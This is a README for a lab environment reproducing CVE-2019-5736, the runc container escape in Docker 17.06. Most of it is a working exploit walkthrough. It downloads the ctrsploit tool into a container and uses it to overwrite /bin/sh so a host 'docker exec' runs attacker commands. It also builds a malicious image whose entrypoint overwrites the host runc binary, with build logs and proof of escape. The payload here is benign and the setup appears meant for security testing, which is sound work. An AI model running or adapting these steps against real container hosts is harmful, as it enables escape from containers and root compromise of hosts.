 # cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

#### exec

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti ubuntu:16.04 bash
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image

```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```
